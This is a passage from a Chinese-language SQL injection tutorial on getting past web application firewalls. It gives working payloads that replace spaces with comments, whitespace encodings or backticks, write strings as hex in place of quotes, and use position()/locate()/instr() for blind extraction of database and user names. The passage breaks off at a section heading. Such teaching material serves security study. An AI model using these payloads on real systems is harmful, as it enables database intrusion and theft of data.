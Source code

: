 ```mysql
select * from users where id=1 union/**/select(1),2,database()
select * from users where id='1'union/**/select(database()),2,3
```

union select不能加括号，否则会报错。

```mysql
select * from users where(id)='1'union select(group_concat(table_name)),2,(3)from(information_schema.tables)where(table_schema=database())
```



**（3）空白字符绕过空格**

`%0a`、`%0b`、`%0c`、`%0d`、`%a0`空格、`%20`、`%09`TAB键、`%00`截断符

可以用于绕过对函数关键词紧跟括号的检测，WAF可能对`database()`字符设置黑名单，用各种空白字符隔开关键词和括号可能会绕过检测，如`database%0a()`、`union%0bselect`，。

**（4）反引号绕过空格**

可以给表名和字段名加上反引号，从而绕过空格。

```mysql
select(COUNT(*))from`users`where`id`=1
```



### 5.2 绕过引号

当引号被过滤时，可以将**字符串转为十六进制**绕过。例如admin的十六进制为0x61646D696E，可以用`select * from users where username=0x61646D696E`代替``select * from users where username='admin'`。



### 5.3 绕过比较符号

可以使用greatest()获取多个参数中的最大值，least()获取多个参数中的最小值。

```mysql
select * from users where id=1 and greatest(ascii(substr(database(),0,1)),64)=64
```

当**等于号**被过滤时，还可以用`regexp()`、`like()`、`rlike()`、`between and`、`locate()`、`position()`、`instr()`查询字符串。

```mysql
select * from users where id='1' and if(position('root' IN substrING(user(),1,4))>0,1,0)
```

```mysql
select * from users where id='1'and if(locate('root',substrING(user(),1,4))>0,1,0)
```

```mysql
select * from users where id='1'and if(instr('root',substrING(user(),1,4))>0,1,0)
```



### 5.4 绕过逗号
